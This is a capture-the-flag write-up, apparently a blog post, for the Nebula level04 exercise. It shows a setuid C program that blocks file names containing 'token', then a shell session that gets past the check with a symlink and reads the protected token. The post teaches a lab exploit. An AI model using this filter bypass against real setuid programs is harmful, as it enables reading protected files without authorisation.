 +++
author = "pwntester"
categories = ["nebula04"]
date = 2013-11-21T00:01:00Z
description = ""
draft = false
slug = "nebula-level04-write-up"
tags = ["nebula04"]
title = "Nebula level04 write-up"

+++

In [Level04](http://exploit-exercises.com/nebula/level04) we are given the code of a program owned by flag04 user:

```lang-clike line-numbers 
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <sys/types.h>
#include <stdio.h>
#include <fcntl.h>

int main(int argc, char **argv, char **envp)
{
  char buf[1024];
  int fd, rc;

  if(argc == 1) {
    printf("%s [file to read]\n", argv[0]);
    exit(EXIT_FAILURE);
  }

  if(strstr(argv[1], "token") != NULL) {
    printf("You may not access '%s'\n", argv[1]);
    exit(EXIT_FAILURE);
  }

  fd = open(argv[1], O_RDONLY);
  if(fd == -1) {
    err(EXIT_FAILURE, "Unable to open %s", argv[1]);
  }

  rc = read(fd, buf, sizeof(buf));

  if(rc == -1) {
    err(EXIT_FAILURE, "Unable to read fd %d", fd);
  }

  write(1, buf, rc);
}
```

The program opens a file passed as first argument if the name does not contain the **token** string so we cannot use it to open our target **token** file ... or can we?
Turns out that solving the level was as easy as creating symlink with a different name:

```lang-bash line-numbers 
level04@nebula:~$ /home/flag04/flag04 /home/flag04/token
You may not access '/home/flag04/token'
level04@nebula:~$ ln -s /home/flag04/token nekot
level04@nebula:~$ /home/flag04/flag04 nekot
06508b5e-8909-4f38-b630-fdb148a848a2
```
